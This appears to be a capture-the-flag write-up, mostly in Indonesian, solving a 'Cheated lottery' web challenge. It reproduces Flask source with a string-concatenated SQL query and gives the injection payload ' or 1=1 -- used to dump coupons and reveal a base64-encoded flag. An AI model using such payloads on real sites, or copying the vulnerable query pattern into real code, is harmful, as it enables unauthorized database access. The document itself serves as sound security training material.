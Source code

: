 # Cheated lottery
---
I am trying to win this stupid lottery but with no success for a long time...I have to try one more time, I've got new coupon - maybe this is the one? Who knows, maybe I'll win something more than expected?

http://cheated-lotery.ch4.btsctf.pl/

---
# Solver
Ketika kita melihat Page Source nya kita dapat mengirimkan parameter source=1 melalui GET untuk melakukan debug
```

from flask import Flask, render_template, request
from dotenv import load_dotenv
import mysql.connector
import os

load_dotenv()

def get_coupons(form):
    coupons = list()
    mydb = mysql.connector.connect(
        host=os.getenv('mysql_host'),
        user=os.getenv('mysql_user'),
        password=os.getenv('mysql_pwd'),
        database=os.getenv('mysql_db')
    )
    mycursor = mydb.cursor()
    try:
        mycursor.execute("SELECT * FROM coupons WHERE code = '" + str(form['cid']) + "'")
    except:
        pass
    myresult = mycursor.fetchall()
    for x in myresult:
        coupons.append({
            'code': x[1],
            'value': x[2]
        })
    mycursor.close()
    return coupons

app = Flask(__name__)

@app.route('/', methods=['POST', 'GET'])
def index(source=None):
    if request.method == "POST":
        coupons = get_coupons(request.form)
        if coupons == []:
            return render_template('list.html', error="Sorry, you didn't win")
        else:
            return render_template('list.html', coupons=coupons)
    else:
        if request.args.get('source') == '1':
            with open(__file__, 'r') as r:
                return r.read().strip()
        else: 
            return render_template('base.html')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=7331)

```
Dari situ saya bisa melihat adanya kerentanan SQL Injection. Langsung saya bypas menggunakan payload `' or 1=1 -- ` dan kita akan mendapatkan 

![](cheated-lottery.png) 

`ZnVOTnktY29kZS1pc25pdD8tbGF6eS1wcm9ncmFtbWVyLXdyb3RlLWl0` tinggal decode base64 `fuNNy-code-isnit?-lazy-programmer-wrote-it` 

##### BtS-CTF{fuNNy-code-isnit?-lazy-programmer-wrote-it}